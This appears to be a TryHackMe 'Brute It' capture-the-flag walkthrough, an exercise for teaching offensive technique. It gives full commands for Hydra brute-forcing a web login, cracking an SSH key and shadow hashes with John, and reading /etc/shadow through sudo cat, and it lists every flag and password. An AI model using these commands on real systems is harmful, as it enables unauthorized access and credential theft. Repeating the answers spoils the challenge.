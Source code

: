 # Brute It

## About The Box
The box is about Brute-force, Hash cracking, Privilege escalation.

## Reconnaissance 

### How many ports are open?
Using nmap, we can found a lot about our target. 
```
  nmap -sV <target-ip>
```
As we can see, **two ports** are open. 

### What version of SSH is running?
The -sV flag shows the the service version: **OpenSSH 7.6p1**


### What version of Apache is running?
**2.4.29**

### Which Linux distribution is running?
**Ubuntu**

### Search for hidden directories on web server.
### What is the hidden directory?
We can find directories on webserver with help of [gobuster](https://www.kali.org/tools/gobuster/).
Gobuster requires the ip address of the target and a wordlist.
```gobuster -u 10.10.196.80 -w known_directory_names```
Following are the results of the command:
1. /.htaccess (Status: 403)
2. /admin (Status: 301)
3. /.htpasswd (Status: 403)
4. /.htpasswds (Status: 403)
Besides **/admin**, everything else is 403. 

Now we can go to the admin page -> ip-address/admin. 

##  Getting a shell 
Now we have to login as admin. To find the username, inspect the website. There is a comment telling the user John, that the admin username is **admin**.
To find the password, I first used [burp-suite intruder](https://portswigger.net/burp/communitydownload). But it wasn't successful. Then I used [Hydra](https://www.kali.org/tools/hydra/).
```hydra -l admin -P rockyou.txt 10.10.196.80 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"```
Using hydra, we get the password: **xavier**.

### Crack the RSA key you found.
### What is John's RSA Private Key passphrase?
After using the credential, you use the flag **THM{brut3_f0rce_is_e4sy}** and a file. Download the file. 
Use [ssh2jonh](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py) to generate the hash. 
``` python3 ssh2john.py ~/TryHackMe/RSA_KEY > hash.txt```
Now with ``` john hash.txt rockyou.txt ```, we get the passphrase for john: **rockinroll**. 
We can now ssh: ```ssh -i RSA_KEY john@ip-address```. 
### user.txt
There we find user.txt containing the flag: **THM{a_password_is_not_a_barrier}**

### Web flag
**THM{brut3_f0rce_is_e4sy}**

## Privilege Escalation
### Find a form to escalate your privileges.
### What is the root's password?

Now we are connected to the remote server using Johns creds, it's time to get the root privileges on this machine. 
Use ```sudo -l``` to see which commands can John execute as root.
**User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat**
Go to [GTFOBins](https://gtfobins.github.io/gtfobins/cat/) to see how we can run the cat command to get root privileges. 
Remember that the passwords on Linux are stored in shadow file. If you try to access ```cat /etc/shadow ```, you will recieve permission denied error.
Set ```LFILE=/etc/shadow``` and then ```sudo cat $LFILE```.
You will see the hashes now. Copy the hash of root and store it in a file locally.  
``` john root_pass.txt rockyou.txt ``` 

Root password: **football**

### root.txt
su -> cat root.txt: **THM{pr1v1l3g3_3sc4l4t10n}**
